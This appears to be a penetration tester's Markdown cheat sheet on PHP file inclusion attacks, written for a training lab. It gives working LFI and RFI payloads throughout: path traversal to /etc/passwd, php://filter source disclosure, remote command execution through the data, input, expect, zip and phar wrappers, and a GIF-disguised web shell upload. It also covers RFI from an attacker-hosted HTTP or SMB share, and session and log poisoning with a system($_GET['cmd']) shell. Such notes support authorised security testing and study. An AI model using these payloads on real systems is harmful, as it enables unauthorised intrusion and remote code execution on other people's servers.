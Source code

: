 # File Inclusion

#### LFI

* ../../etc/passwd
* urlencode^
* null byte
  * ../../etc/passwd%00
* bypass replace filter
  * ....//....//....//....//etc/passwd
* reading source through lfi
  * fuzz for potential php files
  * use php filters as lfi
    * `php://filter/read=convert.base64-encode/resource=[file]`
    * retrieve base64 encoded string then decode in console or to file
      * `echo '[b46string]' | base64 -d > output.php`
* checking for allow\_url\_include
  * use LFI and php filters to read the php ini file
  * apache
    * `curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"`
  * nginx
    * `curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/fpm/php.ini"`
  * grep the output for allow\_url\_include
* php wrappers
  * data
    * `data://text/plain;base64,`
    * needs allow\_url\_include
    * generate b64 php shell
      * `echo '<?php system($_GET["cmd"]); ?>' | base64`
    * url encode b64 string
    * use data wrapper
      * `curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id'`
  * input
    * `php://input`
    * needs allow\_url\_include
    * must accept post data
    * send shell as post data
    * `curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id"`
  * expect
    * `expect://`
    * relies on expect extension
      * grep for it line we did for allow\_url\_include
    * `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`
  * zip
    * `zip://`
    * craft a shell (in this example, creating a zip named jpg for image upload)
    * `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`
    * execute
      * `http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id`
  * phar
    * compile shell.php

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');

$phar->stopBuffering();

```

```
	-compile phar
		- `php --define phar.readonly=0 shell.php && mv shell.phar shell.jpg`
	- execute
		- `http://<SERVER_IP>:<PORT>/index.php?language=phar://./profile_images/shell.jpg%2Fshell.txt&cmd=id`
```

* File Upload
  * create malicious image
    * `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`
  * upload
  * get path
  * execute
    * `http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id`

#### RFI

* requires allow\_url\_include
* test with local url
  * `http://<SERVER_IP>:<PORT>/index.php?language=http://127.0.0.1:80/index.php`
* host a shell
  * `http://<SERVER_IP>:<PORT>/index.php?language=http://<OUR_IP>:<LISTENING_PORT>/shell.php&cmd=id`
* can be hosted with ftp if http is blocked
* if host is windows, we can use smb
  * set up share on your machine with shell
    * `impacket-smbserver -smb2support share $(pwd)`
  * `http://<SERVER_IP>:<PORT>/index.php?language=\\<OUR_IP>\shell.php&cmd=whoami`

#### PHP Session Poisoning

* locations
  * linux
    * `/var/lib/php/sessions/`
  * windows
    * `C:\Windows\Temp\`
  * filename is `sesh_`+cookie value
  * set variable we control with LFI
    * url encoded web shell
      * `%3C%3Fphp%20system%28%24_GET%5B%22cmd%22%5D%29%3B%3F%3E`
  * use lfi to read session data
    * `http://<SERVER_IP>:<PORT>/index.php?language=/var/lib/php/sessions/sess_nhhv8i0o6ua4g88bkdl9u1fdsd&cmd=id`
  * must be re-poisoned with web shell after each execution

#### Server Log Poisoning

* apache
  * linux
    * `/var/log/apache2/`
  * windows
    * `C:\xampp\apache\logs\`
* nginx
  * linux
    * `/var/log/nginx/`
  * windows
    * `C:\nginx\log\`
* use burp to modify User-Agent header
  * `User-Agent: <?php system($_GET['cmd']); ?>`
* can also change header through curl
  * `curl -s "http://<SERVER_IP>:<PORT>/index.php" -A '<?php system($_GET["cmd"]); ?>'`
* use lfi to include the access log and append a cmd GET param
* many other logs are affected as well
  * ssh
  * ftp
  * mail
